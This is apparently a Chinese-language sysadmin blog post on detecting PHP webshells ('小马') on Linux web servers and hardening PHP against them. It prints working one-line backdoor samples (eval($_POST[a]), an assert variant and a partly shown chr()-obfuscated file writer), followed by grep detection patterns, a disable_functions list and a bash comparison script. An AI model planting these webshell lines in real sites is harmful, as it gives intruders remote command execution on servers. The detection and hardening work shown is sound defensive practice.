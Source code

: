 首先认识一下小马，一般大马容易暴露，骇客都会留一手，把小马加入正常PHP文件里面
<?php eval ($_POST[a]);?> //密码为a,使用中国菜刀连接
隐藏很深的小马
fputs(fopen(chr(46).chr(47).chr(97).chr(46).chr(112).chr(104).chr(112),w),chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(101).chr(118).chr(97).chr(108).chr(40).
。。。省略
解码：
其中chr括号里面的数字是美国信息交换标准代码,缩写：ASCII 可以找一份对照表对应一下
比如 46  就是 .
       47  就是 /
       32  就是 空格

也可以echo chr(46)解出来
<?php
echo chr(46).chr(47).chr(97).chr(46)
?>

WINDOWS下的应该有很多日志分析和查杀工具（比如D盾等），那么，LINUX下如何查找WEBSHELL呢？

find /www/ -name "*.php" |xargs egrep 'assert|phpspy|c99sh|milw0rm|eval|\(gunerpress|\(base64_decoolcode|spider_bc|shell_exec|passthru|\(\$\_\POST\[|eval \(str_rot13|\.chr\(|\$\{\"\_P|eval\(\$\_R|file_put_contents\(\.\*\$\_|base64_decode'
然后就手工查看，写入计划任务啦。
只查小马的可以
grep -r --include=*.php  '[^a-z]eval($_POST' . > post.txt
grep -r --include=*.php  '[^a-z]eval($_REQUEST' . > REQUEST.txt
查出来了，重要的是要分析日志，查看入侵源头。
防范：
禁用危险函数，整理权限，防止权限过大
disable_functions = exec,scandir,shell_exec,phpinfo,eval,passthru,system,chroot,chgrp,chown,proc_open,proc_get_status,ini_alter,ini_restore,dl,openlog,syslog,readlink,s
ymlink,popepassthru,stream_socket_server,fsocket
在网上找了一份用PHP查找WEBSHELL的东东，适用数据量小及少
https://github.com/emposha/PHP-Shell-Detector
git 下来  只需要2个文件
shelldetect.php   //默认帐号密码 admin protect 
shelldetect.db
如果你有什么好的建议，感谢你的分享：）
20130826更新
小马的变种很多，经常会绕过我们的检查，此时，最好能做把文件进行对比。
比如，网上找的这个PHP一句话<?php $k="ass"."ert";$k(${"_PO"."ST"}['8']);?>
下面提供自己写的比较简单的检查脚本，思路是对比目录有更新的PHP文件进行匹配。

#!/bin/bash
# 先RSYNC干净的，再执行此脚本最好
Date=`date +%Y%m%d_%H:%M`
src=/www/www.a.com/
dest=/www/www.a.com.bk/
log_tmp1=/root/sh/webshell_php.log
log_result=/root/sh/webshell_result.log
which egrep
if [ $? -ne 0 ];then
echo "Not Found egrep,exit"
exit 0
fi
rsync -av --include="*/" --include="*.php" --exclude="*" $src $dest|grep -i php > $log_tmp1
for diff in `cat $log_tmp1`
  do
     egrep 'assert|phpspy|c99sh|milw0rm|eval|\(gunerpress|\(base64_decoolcode|spider_bc|shell_exec|passthru|\(\$\_\POST\[|eval \(str_rot13|\.chr\(|\$\{\"\_P|eval\(\$\_R|file_put_contents\(\.\*\$\_|base64_decode|\@preg_replace' "$dest""$diff"
  if [ $? -eq 0 ];then
     echo "===========================" >> $log_result
     echo "$Date" >> $log_result
     echo "$dest$diff is Dangerous" >> $log_result
   fi
done

